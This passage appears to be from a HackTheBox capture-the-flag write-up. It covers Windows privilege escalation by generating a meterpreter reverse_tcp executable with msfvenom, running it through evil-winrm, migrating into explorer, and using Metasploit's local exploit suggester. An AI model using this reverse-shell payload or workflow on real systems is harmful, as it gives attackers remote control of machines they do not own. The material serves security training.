 <br />

<div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221123180714.png' | relative_url }}" text-align="center"/>
</div>

Now we have to upgrade our privileges. The first thing we can try is to pass to a meterpreter session. In order to do that, first we create an executable and start the msfconsole in order to initiate a multihandler configuring it correctly:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.9 LPORT=4444 -f exe > shell.exe; msfconsole -x db_status
```

Then, we upload and execute the malicious binary:

<div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221123182307.png' | relative_url }}" text-align="center"/>
</div>

It is convinient to note that the binary has to be in the same directory in which we start the evil-winrm session, otherwise we would have to specified the path to the shell.

Then, we have a meterpreter session:

<div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221123183318.png' | relative_url }}" text-align="center"/>
</div>

Enumeration of the processes (ps) that are currently running on the system we can see that we are on session 0 , meaning that the meterpreter process is running on a non-interactive isolated services session.

<div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221123183828.png' | relative_url }}" text-align="center"/>
</div>

We can try and migrate (migrate) to a process, explorer for example, that has a session id 1 , which means it is interactive:

<div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221123184113.png' | relative_url }}" text-align="center"/>
</div>

Now that we have a session that is not isolated we can perform recon job with the auxiliary module of metasploit: multi/recon/local_exploit_suggester

First, we background our session with Ctrl+Z and use the module:

<div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221123184403.png' | relative_url }}" text-align="center"/>
</div>

At the end of the module we can see an output that displays the severals exploit that the target is vulnerable.

